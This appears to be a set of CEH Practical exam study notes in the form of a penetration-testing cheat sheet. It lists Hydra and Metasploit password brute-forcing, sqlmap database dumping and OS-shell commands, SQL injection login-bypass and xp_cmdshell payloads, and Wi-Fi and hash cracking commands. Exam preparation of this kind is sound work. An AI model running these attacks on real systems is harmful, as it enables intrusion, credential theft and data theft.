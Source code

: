 # Scanning

## Netdiscover
```console
netdiscover -r x.x.x.1/24
```
## Nmap
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

# Credentials SMB Cracking

## Hydra

```console
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```

## Metasploit

```console
For Cracking SMB Password:
we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
>msfconsole .
>use auxiliary/scanner/smb/smb_login
>show option | To get an idea of what to set on
>set PASS_FILE ./ROKYOU.TXT
>set rhost {target IP address} | notes :- rhost means remote host
>set SMBUser name [of the user] | (generally Administrator is username)
>run
```
# Bruteforce SSH, TELNET, FTP  

## SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
## FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

• If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

• Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt
```

# Vulnerability Scanning 

##  Nessus
```console
Nessus runs on https[:]//localhost[:]8834
```

##  nikto -h 
```console

```
# Hidden text

## Snow

```console
snow -C -p "magic" readme2.txt
```

## steghide 
```console
```

# WIRESHARK

```console
To find DOS (SYN and ACK) : 
•	tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0

To find Wireshark DOS attack:
•	statistic -> IPv4 statistic -> source and destination address

View Flood attack on victim via Wireshark 
•	| use filter tcp.port=21
```

https://www.comparitech.com/net-admin/wireshark-cheat-sheet/

# SQL 

```console
SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
```

# PASSWORD CRACKING 

## john

```console
john --single --format=md5crypt crack.txt
```

# WIFI ENCYRPTION CRACKING 
```console
aircrack-ng -w rockyou.txt capture-01.cap
```
# VERACRYPT 


# CUSTOM WORDLIST 

# MOBILE 

## ADB
```console
To Install ADB
apt-get update
sudo apt-get install adb -y
adb devices -l
Connection Establish Steps
adb connect x.x.x.x:5555
adb devices -l
adb shell  
To navigate
pwd
ls
cd Download
ls
cd sdcard
Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```

== resources ==

https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
*https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main

